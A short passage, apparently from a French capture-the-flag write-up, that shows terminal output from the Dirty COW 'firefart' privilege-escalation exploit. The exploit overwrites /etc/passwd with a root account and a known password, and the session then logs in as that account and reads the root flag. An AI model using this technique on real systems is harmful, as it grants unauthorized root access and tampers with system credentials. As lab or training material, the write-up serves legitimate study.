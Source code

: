 ```bash

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'devloop'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'devloop'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
leopold@leopold:/home/leopold$ su firefart
Password: 
firefart@leopold:/home/leopold# cd /root
firefart@leopold:~# ls
flag.txt
firefart@leopold:~# cat flag.txt
53b0af358e2bfcef9883f25fc
```

*Publié le 21 décembre 2022*
